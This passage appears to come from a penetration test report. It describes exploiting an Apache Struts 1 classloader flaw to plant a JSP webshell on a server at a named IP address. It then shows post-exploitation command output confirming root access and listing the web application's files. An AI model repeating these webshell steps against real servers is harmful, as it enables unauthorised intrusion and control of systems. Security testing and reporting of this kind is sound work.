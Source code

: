 ![exploit_struts1.png](images/exploit_struts1.png "Exploit struts1 to setup a webshell")

Once the request had been completed, the shell was created at https://13.54.255.86/evil_shell4.jsp, which was used to execute further commands against the server.

![completed_poc.png](images/completed_poc.png "PoC showing the current working directory")

### Post exploitation of struts 1 classloader

Having proved code execution the tester downloaded and modified the [hentix tool](https://github.com/garbr0/hentix) to execute commands against the server as if they were at the console. Source code modified has been included in [Appendix - Modifications to hentix](## Appendix - Modifications to hentix).

```bash
webshell$ uname -a

Linux f970343092ea 4.4.0-1022-aws #31-Ubuntu SMP Tue Jun 27 11:27:55 UTC 2017 x86_64 GNU/Linux

webshell$ ip add show

1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
        valid_lft forever preferred_lft
forever80: eth0@if81: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether 02:42:ac:11:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.17.0.2/16 scope global eth0
        valid_lft forever preferred_lft forever

webshell$ id

uid=0(root) gid=0(root) groups=0(root)

webshell$ ls webapps/cortel-admin/WEB-INF

application		    client			    dtd			    index.jsp		rateplan		tags			web.xml
billing			    common			    email			lib			    report			test			web.xml.bak
```